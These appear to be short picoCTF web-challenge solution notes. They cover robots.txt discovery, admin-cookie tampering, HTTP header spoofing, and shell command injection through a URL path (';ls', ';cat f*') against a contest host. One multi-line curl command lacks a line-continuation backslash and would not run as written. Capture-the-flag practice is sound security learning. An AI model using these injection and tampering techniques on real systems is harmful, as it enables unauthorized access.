 ## :robot: - where are the robots - `4`
```sh
$ curl http://jupiter.challenges.picoctf.org:36474/robots.txt
. . .
User-agent: *
Disallow: /_.html
. . .

$ curl http://jupiter.challenges.picoctf.org:36474/_.html
```

## :wood: - logon - `46`
- in chrome do `chrome://flags`
- set Partitioned cookies to enable
- relaunch and set admin cookie to true 

## :thread: - dont-use-client-side - `66`
```r
$ curl http://jupiter.challenges.picoctf.org:37821 | grep substring 
```

## :question: - who are you - `142`
```r
# HTTP Requests for Comments (RFC)

$ curl -H "user-agent: PicoBrowser" \
-H "referer: mercury.picoctf.net:34588" \
-H "date: 2018" 
-H "DNT: 1" \
-H "origin: sweden" \
-H "x-forwarded-for: 31.44.224.0" \
-H "accept-language: sv-swe" \
http://mercury.picoctf.net:34588
```

## :baseball: - login - `200`
###### hint: base64

## :cow: - caas - `202`
```sh
$ curl "https://caas.mars.picoctf.net/cowsay/pwd;ls"
$ curl "https://caas.mars.picoctf.net/cowsay/xxx;cat f*"
```
